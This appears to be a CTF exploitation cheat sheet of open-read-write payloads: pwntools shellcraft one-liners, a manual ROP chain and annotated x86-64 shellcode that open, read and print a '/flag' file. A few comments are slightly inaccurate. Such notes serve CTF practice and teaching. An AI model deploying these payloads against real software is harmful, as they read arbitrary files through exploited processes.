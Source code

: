 ## Cat

```py
asm(shellcraft.cat('/flag'))	# 0x23 bytes
"""
    /* push '/flag\x00' */
    push 0x67
    push 0x616c662f
    /* open(file='esp', oflag='O_RDONLY', mode='edx') */
    mov ebx, esp
    xor ecx, ecx
    /* call open() */
    push SYS_open /* 5 */
    pop eax
    int 0x80
    /* sendfile(out_fd=1, in_fd='eax', offset=0, count=0x7fffffff) */
    push 1
    pop ebx
    mov ecx, eax
    xor edx, edx
    push 0x7fffffff
    pop esi
    /* call sendfile() */
    xor eax, eax
    mov al, 0xbb
    int 0x80
 <class 'str'>
"""
```



## ORW

```py
asm(shellcraft.open('/flag', 0) + shellcraft.read(3, heap_base, 0x100) + shellcraft.write(1, heap_base, 0x100))
```

If `fp` for read restricted to `0`:

```
asm(shellcraft.close(0) + shellcraft.open('/flag', 0) + shellcraft.read(3, heap_base, 0x100) + shellcraft.write(1, heap_base, 0x100))
```



## Manually

```python
# gadgets
open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
puts_addr = libc_base + libc.sym['puts']

pl = flat({
    # open
    0x0:  p_rdi_r,
    0x8:  heap_addr + 0xb20,    # file name on chunk 
    0x10: p_rsi_r,
    0x18: 0,
    0x20: open_addr,
    # read
    0x28: p_rdi_r,
    0x30: 4,
    0x38: p_rsi_r,
    0x40: heap_addr + 0x3d0,    # empty space
    0x48: p_rdx_r12_r,
    0x50: 30,
    0x58: 30,
    0x60: read_addr,
    # write
    0x68: p_rdi_r,
    0x70: heap_addr + 0x3d0,	# the empty space
    0x78: puts_addr,
    }, filler='\0')
```



## ASM

### 1

```py
shellcode = asm('''
/* open("flag", 0, 0) */
mov rax, 0x67616c662f2e 
push rax
mov rdi, rsp 
mov rsi, 0 
xor rdx, rdx 
mov rax, 2 
syscall
/* read(fd, buf, 0x400) */
mov rdi, rax 
mov rsi,rsp 
mov rdx, 1024 
mov rax,0 
syscall
/* write(1, buf, 0x400) */
mov rdi, 1 
mov rsi, rsp 
mov rdx, rax 
mov rax, 1 
syscall
/* exit */
mov rdi, 0 
mov rax, 60
syscall
''')
```

- **Open**:
  - `0x67616c662f2e`: String `/flag`.
  - `mov rsi, 0`: Sets the `rsi` register to `0`, indicating that the file is being opened with the read-only flag (this is the mode argument to `open`).
  - `xor rdx, rdx`: Clears the `rdx` register, which will be used to indicate default permissions (not relevant for reading).
  - `mov rax, 2`: Moves `2` into `rax`, which is the system call number for `open`.
- **Read**:
  - `mov rdi, rax`: Moves the file descriptor (returned from the `open` system call) into `rdi`, as the first argument for the `read` system call.
  - `mov rsi, rsp`: Moves the stack pointer into `rsi`, which will be used as the buffer to store the file's contents.
  - `mov rdx, 1024`: Sets `rdx` to `1024`, which is the maximum number of bytes to read from the file.
  - `mov rax, 0`: Sets `rax` to `0`, which is the system call number for `read`.
- **Write**:
  - `mov rdi, 1`: Sets `rdi` to `1`, which is the file descriptor for standard output (i.e., the terminal or console).
  - `mov rsi, rsp`: Moves the stack pointer (where the file content is stored) into `rsi`.
  - `mov rdx, rax`: Sets `rdx` to the value in `rax`, which contains the number of bytes read from the previous `read` system call.
  - `mov rax, 1`: Sets `rax` to `1`, which is the system call number for `write`.
- **Exit**:
  - `mov rdi, 0`: Sets `rdi` to `0`, which will be used as the exit status.
  - `mov rax, 60`: Sets `rax` to `60` (0x3C), which is the system call number for `exit`.

### 2

```py
shellcode = f"""
/* open("flag", 0, 0) */
mov rax, {unpack(b"/flag", 'all')}
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

/* read(fd, buf, 0x30) */
sub rsp, 0x30
mov rsi, rsp
mov rdi, rax
mov rdx, 0x30
mov rax, 0
syscall

/* write(1, buf, 0x30) */
mov rdi, 1
mov rax, 1
syscall
hlt
"""
pl += asm(shellcode)
```

